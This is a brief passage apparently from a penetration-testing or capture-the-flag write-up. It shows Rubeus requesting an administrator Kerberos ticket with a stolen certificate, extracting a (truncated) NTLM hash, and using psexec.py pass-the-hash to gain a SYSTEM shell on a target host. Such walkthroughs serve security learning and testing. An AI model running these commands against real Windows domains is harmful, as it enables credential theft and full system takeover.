 -> OK we get base64(ticket.kirbi)

```
.\Rubeus.exe asktgt /user:administrator /certificate:C:\programdata\cert.pfx /show /nowrap

NTLM: A52...EE
```

-> We get NTLM Hash

## Use Administrator NTLM Hash to connect as System

```
psexec.py -hashes A52...EE:A52...EE administrator@$TARGET 

C:\Windows\System32> whoami
nt authority\ system
```
